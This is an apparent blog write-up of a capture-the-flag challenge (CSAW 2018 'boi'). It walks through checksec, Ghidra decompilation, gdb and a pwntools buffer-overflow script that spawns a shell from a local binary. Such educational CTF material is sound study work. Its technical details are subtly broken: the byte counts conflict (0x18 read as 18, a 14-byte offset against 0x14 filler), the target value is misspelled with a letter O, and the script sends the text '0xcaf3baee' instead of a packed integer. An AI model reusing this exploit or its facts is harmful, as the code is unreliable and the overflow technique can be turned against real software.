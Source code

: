 ```yaml
---
layout: post
title: CSAW 2018 Qualifiers - Big Boy
date: 2023-12-6
categories: [Binary Exploitation, Buffer Overflow]
tags: [CTF, BOF]     
---
```



This is a beginner binary exploitation challenge that serves as a good introduction to buffer overflow.

Let's start by taking a look at the file

```
 $  pwn checksec boi

[*] '/home/boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

It seems that we are dealing with a 64-bit binary with a non-executable stack and a stack canary. Let's try running it

```
$ ./boi

Are you a big boiiiii??
Not really
Wed Dec  6 16:45:04 EET 2023
```

The executable prompted us for input, then returned the current date and time. If we take a look at the main function in Ghidra

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 Input;
  undefined8 local_30;
  undefined4 uStack_28;
  int Target;
  undefined4 local_20;
  long StackCanary;
  
  StackCanary = *(long *)(in_FS_OFFSET + 0x28);
  Input = 0;
  local_30 = 0;
  local_20 = 0;
  uStack_28 = 0;
  Target = -0x21524111;
  puts("Are you a big boiiiii??");
  read(0,&Input,0x18);
  if (Target == -0x350c4512) {
     run_cmd("/bin/bash");
  }
  else {
     run_cmd("/bin/date");
  }
  if (StackCanary != *(long *)(in_FS_OFFSET + 0x28)) {
                            /* WARNING: Subroutine does not return */
     __stack_chk_fail();
  }
  return 0;
}
```

We see that the code:

- initializes the integer `Target` with the value `-0x21524111` 
- prints out "Are you a big boiiiii??" using `puts()` 
- reads 18 bytes from our input
- Checks to see if the value of `Target` is `-0x350c4512`
- If true, opens a shell
- If false, prints the current date

To complete this challange, we have to overwrite the value of `Target` and set it to `OxCAF3BAEE` (the unsigned equivalent of`-0x350c4512`). That would result in the binary running `/bin/bash/`. From Ghidra, we can see where the comparison is taking place. 

![Ghidra](/assets/Image8.png)

Let's use gdb to set a breakpoint at that address, then run the binary.

```
$ gdb boi

pwngdb > break *0x4006a5
pwngdb > run
Are you a big boiiiii??
yea
```

We notice that our input is 14 bytes away from the value of `Target`.

![pwngdb](/assets/Image9.png)

We can create an exploit which will send 18 bytes (maximum we are allowed) where 14 bytes are the filler needed to reach `Target` and the last 4 bytes are `OxCAF3BAEE`, which would overwrite `0xDEADBEEF`

```python
from pwn import *

# Establish the target process
target = process('./boi')

# The payload consists of 14 filler bytes and the 4 byte integer we overwrite target with
payload = "0"*0x14 + "0xcaf3baee"

# Send the payload
target.send(payload)

# Drop to an interactive shell so we can interact with our shell
target.interactive()
```
And that's it!
